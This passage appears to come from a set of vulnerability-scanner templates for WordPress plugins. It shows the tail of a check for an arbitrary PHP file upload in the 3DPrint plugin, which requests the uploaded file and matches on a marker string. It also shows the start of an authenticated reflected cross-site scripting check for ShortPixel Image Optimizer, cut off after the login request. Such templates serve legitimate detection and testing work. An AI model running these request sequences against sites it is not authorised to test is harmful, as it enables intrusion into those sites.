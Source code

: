 ```
-----------------------------54331109111293931601238262353--

```

### Step - 2

```
GET /wp-content/uploads/p3d/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_2, "text/html")
  2. status_code_2 == 200
  3. contains(body_2, '3DPrint-arbitrary-file-upload')
- condition - and

---

# WordPress ShortPixel Image Optimizer \<4.22.10 - Cross-Site Scripting

## Description

- WordPress ShortPixel Image Optimizer 4.22.10 does not escape generated URLs before outputting them back in an attribute, leading to reflected cross-site scripting.
- severity - medium
- tags - shortpixel,authenticated,wpscan,xss,wp-plugin,wp,wordpress

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2
